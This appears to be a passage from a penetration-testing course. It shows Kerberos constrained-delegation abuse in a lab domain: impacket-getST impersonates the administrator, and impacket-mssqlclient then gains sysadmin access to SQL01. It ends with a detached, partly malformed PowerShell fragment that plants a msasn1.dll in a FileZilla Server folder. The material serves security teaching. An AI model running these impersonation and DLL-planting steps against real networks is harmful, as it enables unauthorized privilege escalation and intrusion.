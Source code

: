 ```
kali@kali:~$ export KRB5CCNAME=iissvc.ccache
```

> Listing 17 - Exporting iissvc.ccache ticket to KRB5CCNAME environment variable

Since the _IISSvc_ account is configured with constrained delegation, we can now use it to request service tickets for other users, including the administrator, based on the SPNs set. Let's take advantage of the S4U2Self and S4U2proxy extensions by supplying the **-impersonate** switch followed by the administrator account. We'll also use **-k** and **-no-pass** to indicate that we will use Kerberos authentication with our existing ticket and not be prompted for a password.

```
kali@kali:~$ impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

> Listing 18 - Requesting service ticket and impersonating the administrator user

The output indicates that we successfully used the Kerberos ticket for _IISSvc_ to impersonate the administrator user by using the S4U2Self and S4U2Proxy extensions, and we've obtained a usable service ticket for the MSSQL service instance on _SQL01_.

We'll go ahead and export the new ticket to our _KRB5CCNAME_ variable and verify that it works by using **impacket-mssqlclient** to connect to _SQL01_ using Kerberos authentication.

```
kali@kali:~$ export KRB5CCNAME=administrator.ccache

kali@kali:~$ impacket-mssqlclient sql01.corp.com -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL> SELECT SYSTEM_USER;

--------------------------------

CORP\Administrator                                                                                              


SQL> SELECT IS_SRVROLEMEMBER('sysadmin');

-----------   

          1

SQL> SELECT CURRENT_USER;
                                                                                                                
-------------------------------- 

dbo                                                                                                      
```


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"